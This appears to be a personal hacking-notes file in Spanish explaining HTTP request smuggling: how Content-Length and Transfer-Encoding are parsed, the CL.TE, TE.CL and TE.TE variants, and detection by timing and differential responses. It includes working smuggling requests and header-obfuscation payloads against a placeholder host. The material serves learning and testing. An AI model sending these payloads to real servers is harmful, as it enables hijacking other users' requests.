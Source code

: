 # Repositorio donde escribo/anoto recursos relacionados al hacking

# Web

## HTTP Request Smuggling

![HTTP Request Smuggling diagram](img/http-request-smuggling.svg)

### ¿Qué es?

Una técnica para interferir el modo en el que un sitio web procesa secuencias de consultas HTTP

Típicamente cuando el frontend de una aplicación recibe consultas, intenta enviar muchas consultas juntas al backend, ya que esto es mucho más eficiente, esto es posible gracias a los headers de las consultas, que le indican al servidor dónde termina y dónde inicia una consulta, pero para esto deben interpretarlo de la misma manera el frontend y el backend.

![Diagrama de frontend enviando varias consultas (de distintas fuentes) al backend](/home/camilo/hacking-notes/img/forwarding-http-requests-to-back-end-server.svg)

Este es el caso "normal", ya que no hay confusiones ni consultas extrañas, pero si un atacante desea confundir a un servidor vulnerable, le puede hacer creer que parte de la consulta es otra nueva, como se muestra en el siguiente diagrama.

![Diagrama que muestra un caso de smuggling en el que parte de la consulta del atacante se interpreta como una completamente nueva perteneciente a otro cliente](/home/camilo/hacking-notes/img/smuggling-http-request-to-back-end-server.svg)

Esta vulnerabilidad nace principalmente gracias a 2 headers, que son las dos maneras de indicar dónde termina una consulta: `Content-Length` y `Transfer-Encoding`

`Content-Length` especifica el largo de la consulta con la cantidad de bytes, por ejemplo:

```http
POST /prueba HTTP/1.1
Host: prueba.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

param=value
```

`Transfer-Encoding` (detalles [aquí](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Transfer-Encoding)) es un header que se puede ocupar para especificar que la consulta ocupa chunked-encoding, esto significa que la consulta tiene uno o más chunks de data, cada chunk consiste en el tamaño (bytes) del chunk, seguido de un salto de línea, luego los datos, finalmente la consulta termina cuando encuentra el chunk 0 (vacío, sólo un 0), por ejemplo:

```http
POST /prueba HTTP/1.1
Host: prueba.com
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

b
param=value
0
```

Como la especificación HTTP admite dos formas de indicar el largo de los mensajes, es posible incluir ambos headers, la especificación HTTP intenta arreglar este problema ignorando `Content-Length` si es que los dos están presentes, esto sería suficiente para un solo servidor, pero no necesariamente cuando hay más de un servidor implicado (encadenados), esto se debe a dos principales razones:

* Algunos servidores no soportan `Transfer-Encoding`.

* Algunos servidores que soportan `Transfer-Encoding` pueden ser inducidos a no procesar el header en caso de estar ofuscado de alguna manera.

Entonces cuando los servidores de frontend y backend procesan de maneras diferentes los headers (específicamente `Transfer-Encoding`) es cuando podría ser vulnerable.

### Tipos de ataques de HTTP Request Smuggling

#### CL.TE

Es cuando el frontend utiliza `Content-Length` y el backend `Transfer-Encoding`

Ejemplo:

```http
POST / HTTP/1.1
Host: prueba.com
Content-Length: 13
Transfer-Encoding: chunked

0

SMUGGLED
```

El frontend determina que el cuerpo de la consulta es de 13 bytes, es decir, hasta el final de SMUGGLED, esta consulta es enviada al backend, donde se determina que la consulta termina en el 0, por lo tanto se ve SMUGGLED como el inicio de una nueva consulta totalmente aparte.

#### TE.CL

Es cuando el frontend utiliza `Transfer-Encoding` y el backend `Content-Length`.

Ejemplo:

```http
POST / HTTP/1.1
Host: prueba.com
Content-Length: 3
Transfer-Encoding: chunked

8
SMUGGLED
0
```

> Nota: es necesario desactivar cualquier automatización de `Content-Length` que se haga, ya que la idea es no poner el largo real.

En este caso el frontend procesa "todo" el cuerpo, pero el backend al procesar `Content-Length` llega hasta antes de SMUGGLED, por lo que desde esa parte en adelante, será procesada en el backend como una nueva consulta.

#### TE.TE:

Es cuando el frontend utiliza `Transfer-Encoding` y el backend `Transfer-Encoding`, pero alguno de los servidores se puede inducir a no procesar el header, posiblemente por ofuscación.

Algunas posibles ofuscaciones: (también sirve variar mayúsculas o duplicados)

```http
Transfer-Encoding: xchunked

Transfer-Encoding : chunked

Transfer-Encoding: chunked
Transfer-Encoding: x

Transfer-Encoding:    chunked

 Transfer-Encoding: chunked

Transfer-Encoding
: chunked
```

### Cómo identificarlas

#### Técnicas de tiempo (delay)

##### CL.TE

Si la aplicación es vulnerable a esta variante, entonces probablemente va a causar un delay esta consulta:

```http
POST / HTTP/1.1
Host: prueba.com
Transfer-Encoding: chunked
Content-Length: 4

1
A
X
```

Ya que el frontend enviaría la consulta sin incluir la X, mientras que el backend esperaría el próximo chunk.

##### TE.CL

En este caso usaríamos la siguiente consulta:

```http
POST / HTTP/1.1
Host: prueba.com
Transfer-Encoding: chunked
Content-Length: 6

0

X
```

El frontend mandaría hasta el 0, mientras que el backend esperaría más datos, gracias a `Content-Length`

#### Confirmando la vulnerabilidad usando respuestas diferenciales

> Nota: como consulta "normal" se usará de ejemplo la siguiente consulta:
> 
> ```http
> POST /prueba HTTP/1.1
> Host: prueba.com
> Content-Type: application/x-www-form-urlencoded
> Content-Length: 11
> 
> q=smuggling
> ```

##### CL.TE

```http
POST /prueba HTTP/1.1
Host: prueba.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Transfer-Encoding: chunked

e
q=smuggling&x=
0

GET /404 HTTP/1.1
Foo: x
```

Si el ataque es exitoso, las últimas líneas (a partir de GET /404) serán tratadas por el backend como parte de la siguiente consuta, donde la próxima consulta "normal" que haga alguien quedaría de la siguiente manera:

```http
GET /404 HTTP/1.1
Foo: xPOST /prueba HTTP/1.1
Host: prueba.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```

En el caso de que devuelva el 404 (o lo que se espera dependiendo del ataque) se puede confirmar la vulnerabilidad.
